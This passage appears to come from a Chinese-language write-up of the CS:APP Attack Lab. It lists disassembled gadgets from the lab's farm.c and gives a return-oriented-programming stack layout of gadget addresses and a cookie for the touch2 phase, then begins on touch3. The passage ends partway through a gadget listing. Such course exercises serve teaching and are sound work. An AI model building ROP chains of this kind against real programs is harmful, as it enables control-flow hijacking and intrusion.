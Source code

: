 ```asm
  4019b4:	c3                   	retq

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq

; mov %rax, %rdi
; nop
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq

; popq %rax
; nop
; ret (near)
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq

```

我们找到`popq %rax`(`0x4019ab`)和`mov %rax, %rdi`(`0x4019a2`)这种相当有用的指令，因此把栈做如下编排：

```
...                           # 40 useless bytes
ab 19 40 00 00 00 00 00       # popq %rax
fa 97 b9 59 00 00 00 00       # cookie
a2 19 40 00 00 00 00 00       # mov %rax, %rdi
ec 17 40 00 00 00 00 00       # touch2()
```

### 2. touch3()

最初打算直接使用%rsp 来充当字符串的地址，但是这样的话实在没有合适的指令让%rsp 往下跳……看了亿眼别人的答案，才发现可以让%rsp 加上一个偏移量，寄寄寄（

偏移量怎么加呢？我们看看`farm.c`(只截取有用的 gadget)：

```asm
; mov %rax, %rdi
; nop
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq

; performs "%rax = %rdi + %rsi"
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq

; mov %rsp, %rax
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq

; mov %ecx, %esi
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq

; mov %ecx, %esi
0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
```